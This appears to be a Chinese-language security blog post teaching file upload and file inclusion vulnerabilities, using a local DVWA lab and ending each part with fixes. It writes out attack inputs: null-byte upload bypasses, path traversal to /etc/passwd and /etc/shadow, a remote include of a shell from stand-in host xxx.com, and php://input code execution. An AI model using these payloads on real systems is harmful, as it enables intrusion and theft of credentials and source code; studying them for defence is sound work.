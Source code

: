 ```yaml
---
title: 文件上传/文件包含漏洞学习
date: 2016-04-25 21:52:19
categories: 安全
tags: Web安全
---
```

** 文件上传漏洞 **

在Web程序中，经常需要用到文件上传的功能。如用户或者管理员上传图片，或者其它文件。如果没有限制上传类型或者限制不严格被绕过，就有可能造成文件上传漏洞。如果上传了可执行文件或者网页脚本，就会导致网站被控制甚至服务器沦陷。
常见漏洞原因主要有：
服务器皮配置不当，如开启PUT方式；文本编辑器漏洞；过滤不严上传绕过；解析漏洞等
<!--more-->

### 上传方式
#### 1、解析漏洞  
IIS 6.0 解析漏洞:  
目录解析：在网站中建立名称为*.asp、*.asa格式的文件夹时。其目录下的任意文件都会被当做asp执行。  
文件解析：当文件名为*.asp;1.jpg 时，也会被当做asp执行。这时因为分号后面的不被解析。  
Apache 解析漏洞:
Apache在解析文件时，是从右到左,如果遇到不认识的扩展名，就会继续向左判断。例如1.php.rar，Apache回将其当做php解析。  
IIS 7.0/IIS 7.5/ Nginx <0.8.3畸形解析漏洞：当访问`http://xxx.xom/1.jpg/1.php`时，此时1.php不存在，会将1.jpg当做php来解析。这是因为在php配置中`cgi.fi: x_pathinfo `这个选项开启时，当访问`http://xxx.xom/1.jpg/1.php`，1.php不存在，所有php会向前递归解析，于是造成解析漏洞。

#### 2、绕过上传检测
1.有些上传检测是在客户端使用Javascript进行验证，此时可以使用浏览器f12调试功能修改js来绕过。  
2.00截断：将普通的webshell文件更改后缀名为jpg，如xxx.jpg然后进行上传。上传时使用burpsuite工具进行拦截。此时在数据中更改文件名为 xxx.php.jpg,然后点击hex编辑16进制。将`.jpg`中的`.`的16进制`2e`更改为`00`。如图  ![](http://7xo8y2.com1.z0.glb.clouddn.com/fileupload00.png)
此时文件名为：
![](http://7xo8y2.com1.z0.glb.clouddn.com/fileupload01.png)
此时，点击go进行上传，最终上传文件为xxx.php
#### 3、服务器配置不当
WebDAV是一种基于 HTTP 1.1协议的通信协议.它扩展了HTTP 1.1，在GET、POST、HEAD等几个HTTP标准方法以外添加了一些新的方法。使应用程序可直接对Web Server直接读写，并支持写文件锁定(Locking)及解锁(Unlock)，还可以支持文件的版本控制。当WebDAV开启PUT，MOVE，COPY，DELETE方法时，攻击者就可以向服务器上传危险脚本文件。
此时可以使用OPTIONS探测服务器支持的http方法，如果支持PUT，就进行上传脚本文件，在通过MOVE或COPY方法改名。当开启DELETE时还可以删除文件。
参考:http://wiki.wooyun.org/server:httpput


### 修复上传漏洞
#### 1、白名单验证
在服务器后端，使用白名单进行验证可以有效防御。
#### 2、目录限制
上传后指定目录进行存储，可以防止目录解析漏洞。
#### 3、文件重命名
上传后对文件名进行随机重命名，同时对后缀进行拼接，重新组成一个文件名。


**文件包含漏洞**
### 简介
在脚本语言中经常会用到其它的文件，所以都提供了文件包含功能，如果不对可以包含的文件进行限制，就有可能会导致文件包含漏洞。文件包含分为本地文件包含和远程文件包含。
文件包含漏洞可以读取敏感文件，配合文件上传功能可以得到webshell,远程文件包含可以直接远程包含shell。

### 本地文件包含利用
以PHP为例。PHP中提供了四个文件包含的函数，分别是 include(),include_once(),require(),require_once()  
以DVWA为例：
页面中存在3个链接，分别为file1.php,file2.php,file2.php,当打开file1.php时，url链接为`http://127.0.0.1/DVWA/vulnerabilities/fi/?page=file1.php`
源代码如下
```
$file = $_GET[ 'page' ];
if( isset( $file ) )
	include( $file );
else {
	header( 'Location:?page=include.php' );
	exit;
}
```
首先接受$file，当存在时就会包含该页面，否则就跳转到include.php，然而我们可以对输入的$file进行控制。当输入
`http://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../../phpinfo.php`时就可以打开phpinfo.php,由此可以读取敏感文件。
如图![](http://7xo8y2.com1.z0.glb.clouddn.com/fileinclude.png)
并且当包含的文件中有符合php语法规范的语句时，也会将其当做php执行
例如创建一个phpinfo.txt文本，内容为：
```
<?php
phpinfo()
?>
```
当包含此文件时也会将其当做php文件执行。当包含非php语法规范的文件时，会打印其源代码。
如果存在文件上传功能，但是没有漏洞时，可以上传一个图片木马，由于没有限制导致无法被解析成为php时，就可以使用文件包含漏洞进行利用。
本地文件包含也可以用来读取敏感文件。
如windows下：  
c:\boot.ini  
c:\windows\system32\inetsrv\MetaBase.xml  
c:\windows\php.ini  
c:\windows\my.ini  
linux下：  
/etc/passwd  
/etc/shadow  
/var/www/conf/httpd.conf  
/var/httpd/conf/php.ini  
/var/httpd/conf/httpd.conf  
本地文件包含也可以用来包含session文件，日志文件、上传的临时文件，缓存文件等等

### 远程文件包含利用
当php配置中allow_url_fopen和allow_url_include是打开时，就可以尝试包含远程文件，此时可以直接用来包含webshell等脚本文件。
如：` http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://xxx.com/shell.php`,其中`http://xxx.com/shell.php`为远程shell文件。
同理也可以使用https或者ftp或者http
使用PHP封装协议：
如php流filter `http://127.0.0.1/DVWA/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=index.php`
此时访问次链接就会得到网页源码的base64代码。
php://input可以执行文件
当访问`http://127.0.0.1/DVWA/vulnerabilities/fi/?page=php://input`时，使用burpsuite进行截取
在post中提交数据即可，如`<?php system('uname -a') ?>`，如图
![](http://7xo8y2.com1.z0.glb.clouddn.com/remoteinclude.png)
当后缀名被固定时，可以使用截断包含。
如：
```
$file = $_GET[ 'page' ];
if( isset( $file ) )
	include( $file ).".php";
else {
	header( 'Location:?page=include.php' );
	exit;
}
```
当包含时只输入文件名，不输入后缀。但此时
可以输入`?page=../../../../../../../../../etc/passwd%00`
%00会截断。这种方法需要 magic_quotes_gpc=off，PHP小于5.3有效。否则%00会被转义
php小于5.3时，也可以利用最大目录长度的限制可以到达截断，如
`../../../../../../(此处省略)/../etc/passd`
在linux为4096字节，windows下256字节。
另外可以使用`？`来实现伪截断

### 漏洞修复
1、设置allow_url_include和allow_url_fopen为关闭  
2、对可以包含的文件进行限制，可以使用白名单的方式，或者设置可以包含的目录，如open_basedir  
3、尽量不使用动态包含

**参考：**  
《Web安全深度剖析》  
《白帽子讲Web安全》  
http://drops.wooyun.org/tips/3827
